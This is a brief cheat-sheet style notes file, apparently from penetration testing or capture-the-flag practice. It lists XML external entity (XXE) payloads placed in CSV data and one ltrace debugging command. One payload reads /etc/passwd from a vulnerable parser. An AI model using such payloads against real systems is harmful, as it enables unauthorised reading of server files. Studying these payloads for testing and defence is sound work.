 XXE payloads
-------------------------------------------------------------------------------
```
<!DOCTYPE warren [ <!ENTITY var SYSTEM "test" > ]>

id,name,email
a,&var;,z     //var =test 

<!DOCTYPE warren [ <!ENTITY var SYSTEM "file:///etc/passwd" > ]>

id,name,email
a,&var;,z
```
---------------------------------------------------------------------------------


Pawning
-----------------------------------------------------
```
ltrace -S -f -i ./prgram_name 
```
